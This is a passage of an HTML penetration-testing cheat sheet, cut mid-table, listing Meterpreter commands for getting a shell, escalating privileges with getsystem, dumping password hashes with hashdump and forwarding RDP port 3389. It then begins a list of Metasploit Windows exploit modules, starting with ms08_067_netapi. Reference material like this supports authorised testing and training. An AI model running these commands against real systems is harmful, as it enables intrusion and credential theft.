      <td>
	    <p>Meterpreter get shell on the target</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>getsystem</code></p>
      </td>
      <td>
	    <p>Meterpreter attempts priviledge escalation the target</p>
      </td>
    </tr>    
    <tr>
      <td>
        <p><code>hashdump</code></p>
      </td>
      <td>
	    <p>Meterpreter attempts to dump the hashes on the target</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>portfwd add –l 3389 –p 3389 –r target</code></p>
      </td>
      <td>
	    <p>Meterpreter create port forward to target machine</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>portfwd delete –l 3389 –p 3389 –r target</code></p>
      </td>
      <td>
	    <p>Meterpreter delete port forward</p>
      </td>
    </tr>


  </tbody>
</table>
</div>

### Common Metasploit Modules

Top metasploit modules.

#### Remote Windows Metasploit Modules (exploits)

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <p><code>use exploit/windows/smb/ms08_067_netapi</code></p>
      </td>
      <td>
            <p>MS08_067 Windows 2k, XP, 2003 Remote Exploit</p>
      </td>
    </tr>
